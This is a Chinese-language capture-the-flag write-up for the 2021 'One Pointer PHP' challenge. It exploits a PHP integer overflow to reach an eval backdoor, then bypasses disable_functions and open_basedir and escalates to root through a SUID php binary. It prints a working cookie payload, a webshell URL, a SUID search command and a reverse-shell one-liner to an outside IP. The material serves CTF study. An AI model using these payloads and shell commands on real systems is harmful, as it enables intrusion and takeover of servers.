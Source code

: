 # \[蓝帽杯 2021]One Pointer PHP

## \[蓝帽杯 2021]One Pointer PHP

## 考点

* PHP整数溢出绕过数组赋值
* disable\_functions bypass
* open\_basedir bypass
* SUID提权
* PHP提权
* 攻击 php-fpm 绕过 disable\_functions

## wp

### 我的想法

给了源码，代码比较少，`user.php`定义了`User`类，有一个`count`属性

`add_api.php`先对`cookie`中的`data`进行反序列化，然后把反序列化后`User`类的`count`属性加一赋值给`count`数组，作为key，对应的value为`1`。`$count[]=1`是对数组的最后一个元素赋值，然后反序列化的`User`类的`count`属性再加一

```php
include "user.php";
if($user=unserialize($_COOKIE["data"])){
	$count[++$user->count]=1;
	if($count[]=1){
		$user->count+=1;
		setcookie("data",serialize($user));
	}else{
		eval($_GET["backdoor"]);
	}
}else{
	$user=new User;
	$user->count=1;
	setcookie("data",serialize($user));
}
```

举个例子，如果这里反序列化的是`O:4:"User":1:{s:5:"count";i:1;}`

那么反序列化后的user是`object(User)#1 (1) { ["count"]=> int(1) }`

然后执行数组赋值`$count[++$user->count]=1`，此时的user是`object(User)#1 (1) { ["count"]=> int(2) }`

count数组是`array(1) { [2]=> int(1) }`，意思是第3个元素值为1

然后执行`$count[]=1`，对后面一个元素赋值，count数组变成了`array(2) { [2]=> int(1) [3]=> int(1) }`，第3个和第4个元素值为1

这样就会有一个**溢出**的问题，在执行`$count[]=1`前，如果count数组的下标达到了整型最大，就会在执行这个语句时发生溢出。

回到题目，题目给的cookie如下

```
O%3A4%3A%22User%22%3A1%3A%7Bs%3A5%3A%22count%22%3Bi%3A1%3B%7D
```

32位系统int最大取值为2147483647，64位的最大取值为9223372036854775807。由于中间有一次count的自增，所以改成9223372036854775806，就可以执行shell

```
O%3A4%3A%22User%22%3A1%3A%7Bs%3A5%3A%22count%22%3Bi%3A9223372036854775806%3B%7D
```

![](<../../.gitbook/assets/image (26).png>)

disable\_functions过滤了很多东西，并且设置了`open_basedir`是`/var/www/html`

![](<../../.gitbook/assets/image (11).png>)

可以使用蚁剑连接shell，URL为`http://386b04f5-3788-4ff5-ae86-1d103baecdb7.node4.buuoj.cn:81/add_api.php?backdoor=eval($_POST["cmd"]);`，密码为`cmd`，再加上请求头

![](<../../.gitbook/assets/image (9).png>)

调用虚拟终端，输入ls，返回的内容是ret=127，意思是没有权限，然后就要绕过了

![](<../../.gitbook/assets/image (24).png>)

可以使用[PHP 7.0-8.0 disable\_functions bypass \[user\_filter\]](https://github.com/mm0r1/exploits/tree/master/php-filter-bypass)进行绕过，这个只能进行命令执行，没办法代码执行。然后读取flag失败，发现只有root可以读取

![](<../../.gitbook/assets/image (22).png>)

最后就是Linux提权，经典尝试suid提权。先查看具有root用户权限的SUID文件

在蚁剑的shell执行`find / -perm -u=s -type f 2>/dev/null`没有显示任何东西，再试试把[PHP 7.0-8.0 disable\_functions bypass \[user\_filter\]](https://github.com/mm0r1/exploits/tree/master/php-filter-bypass)的exp.php复制到/var/www/html下访问就可以看到结果了

![](<../../.gitbook/assets/image (34).png>)

有个/usr/local/bin/php，它是具有root权限的，并且当前用户可以使用php -a进入交互模式。但是蚁剑的shell没办法进行交互，浏览器更不行，所以考虑把shell反弹。在蚁剑执行`bash -c 'sh -i >& /dev/tcp/81.68.218.54/44444 0>&1'` 在VPS接收

![](<../../.gitbook/assets/image (29).png>)

然后进入PHP交互模式，绕过open\_basedir读取flag

![](<../../.gitbook/assets/image (19).png>)

### 攻击 php-fpm 绕过 disable\_functions（未完成）

在phpinfo可以看到是以FPM/FastCGI模式启动。

